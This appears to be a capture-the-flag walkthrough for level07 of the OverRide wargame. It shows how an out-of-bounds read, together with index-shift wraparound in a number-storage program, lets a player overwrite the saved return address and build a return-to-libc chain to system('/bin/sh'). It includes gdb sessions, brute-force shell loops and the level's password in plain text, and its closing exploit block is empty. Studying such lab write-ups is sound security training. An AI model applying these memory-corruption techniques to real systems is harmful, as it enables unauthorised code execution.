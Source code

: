 ```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level07
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level07@192.168.56.101's password: GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

The program wipes arguments and environment variables. It creates a static array of 400 bytes fo data of storage. It executes a loop prompting the user to enter the command to execute: `store`, `read` or `quit`.
`store_number()` receives a pointer to `data` array and store a number to the given index. Indexes which are modulo 3 and 183rd index are reserved and cannot be assignable.
`read_number()` receive a pointer to `data` array and read the number stored in the given index.
In case of successful execution of command, `main()` prints corresponding message, as well as for unsuccessful execution.
The last instruction zeroing out memory of `command` and it loop again asking the user a command.

`read_number()` do not check if input index, so it allow to read out of boundaries of `data` array. Over 694rd index, program crash with segfault.
```shell
level07@OverRide:~$ ./payload.py --max 1000 | ./level07
[...]
Input command:  Index:  Number at data[693] is 0
 Completed read command successfully
Input command:  Index:  Number at data[694] is 0
 Completed read command successfully
Input command:  Index: Segmentation fault (core dumped)
```
Saved EIP on `main()` function is `0xf7e45513`. While reading out of boundaries of array saved `EIP` should appear.
```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fceff4 --> 0x1a2d7c
ECX: 0xffffd600 --> 0x0
EDX: 0xffffd600 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x0
ESP: 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
EIP: 0x80489f1 (<main+718>:     ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80489ee <main+715>:        pop    esi
   0x80489ef <main+716>:        pop    edi
   0x80489f0 <main+717>:        pop    ebp
=> 0x80489f1 <main+718>:        ret
   0x80489f2:   nop
   0x80489f3:   nop
   0x80489f4:   nop
   0x80489f5:   nop
[------------------------------------stack-------------------------------------]
0000| 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0004| 0xffffd6c0 --> 0x1
0008| 0xffffd6c4 --> 0xffffd754 --> 0xffffd88f --> 0x0
0012| 0xffffd6c8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
0016| 0xffffd6cc --> 0xf7fd3000 --> 0xf7e2c000 --> 0x464c457f
0020| 0xffffd6d0 --> 0x0
0024| 0xffffd6d4 --> 0xffffd71c --> 0xf7ffcff4 --> 0x20f1c
0028| 0xffffd6d8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x80489f1 in main; saved eip 0xf7e45513
 called by frame at 0xffffd730
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
gdb-peda$ x/wx 0xffffd6bc
0xffffd6bc:     0xf7e45513
```
Indeed, on reading 1000 bytes, `EIP` it can be seen.
```shell
level07@OverRide:~$ ./payload.py --max 500 | ./level07 | grep -o "Number at data.*$" | cut -d' ' -f5 | sort -hu | sed 's/^/printf "0x%08x" /e' | grep 0xf7e45513
0xf7e45513
level07@OverRide:~$
```
Or without `payload.py`
```shell
level07@OverRide:~$ python -c "print(0xf7e45513)"
4158936339
level07@OverRide:~$ for i in {0..500}; do (echo read; echo $i; echo quit) | ./level07 | if [ $(grep -oE '[0-9]+$') -eq 4158936339 ]; then echo "EIP is on index $i"; fi; done
EIP is on index 114
```

While reading/storing a number from data storage, the index is used to determine the absolute address from where to read/write strating from beggining of `data` array.
```
data[index<<2] = number
```
On writting to index 1 it will write to `data[1 << 2] = number`, same as `data[4] = number` .
On writting to index 114 it will write to `data[114 << 2] = number`, same as `data[456] = number` .

In the binary representation (32 bits), value `114` looks like:
```
0000 0000   0000 0000   0000 0000   0111 0010
```
Shift operation is destructive. Excess bits shifted off to the left are discarded, and zero bits are shifted in from the right.
Knowing that `store_number()` use rigth-shift operation (multiplication x4) `data[index << 2] = number`, first two MSB bits can be set switch on.

In the first time it will make pass the condition %3, and in the second time at the time of <<2 will result in index 456
| Binary value                                    | Decimal value  | Modulo result | Usable | Binary value after shift <<2                    | Decimal value after shift <<2 |
|-------------------------------------------------|----------------|---------------|--------|-------------------------------------------------|-------------------------------|
| `0100 0000   0000 0000   0000 0000   0111 0010` | 1073741938     | 1             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1000 0000   0000 0000   0000 0000   0111 0010` | 2147483762     | 2             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1100 0000   0000 0000   0000 0000   0111 0010` | 3221225586     | 0             | No     | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |

Retrieve `system()`, `exit()` and `"/bin/sh"` addresses.
```gdb
[...]
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```
Convert them to decimal values.
```gdb
gdb-peda$ p/d 0xf7e6aed0
$3 = 4159090384
gdb-peda$ p/d 0xf7e5eb70
$4 = 4159040368
gdb-peda$ p/d 0xf7f897ec
$5 = 4160264172
```
Decimal values can be stored in data storage following by `quit` command to return from `main()` into a new shell process.

| Value     | Address     | Decimal value | Index                      |
|-----------|-------------|---------------|----------------------------|
| system()  | 0xf7e6aed0  | 4159090384    | 114(1073741938,2147483762) |
| exit()    | 0xf7e5eb70  | 4159040368    | 115                        |
| "/bin/sh" | 0xf7f897ec  | 4160264172    | 116                        |

# Exploit
```shell
```
